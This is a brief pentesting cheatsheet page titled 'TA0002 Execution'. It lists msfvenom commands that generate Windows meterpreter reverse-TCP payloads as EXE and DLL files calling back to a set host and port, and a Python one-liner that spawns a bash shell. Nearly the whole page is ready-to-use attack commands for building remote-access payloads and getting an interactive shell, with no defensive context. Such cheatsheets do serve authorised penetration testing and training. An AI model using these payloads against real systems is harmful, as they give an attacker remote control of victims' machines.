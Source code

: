 ```yaml
---
layout: post
title: TA0002 Execution
category: Pentesting
parent: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-02-15
permalink: /:categories/:title/
---
```


<!-- vscode-markdown-toc -->
* [Executing System Interpreters](#ExecutingSystemInterpreters)
* [Build System Interpreters - MSFvenom](#BuildSystemInterpreters-MSFvenom)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='BuildSystemInterpreters-MSFvenom'></a>Build System Interpreters - MSFvenom
```sh
#? generate msfvenom payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f exe > /tmp/meter-rtcp-192.168.156.1-80.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f dll > /tmp/meter-rtcp-192.168.156.1-80.dll
```

## <a name='ExecutingSystemInterpreters'></a>Executing System Interpreters 
```sh
# run bash via python
python -c 'import pty; pty.spawn("/bin/bash")'
```
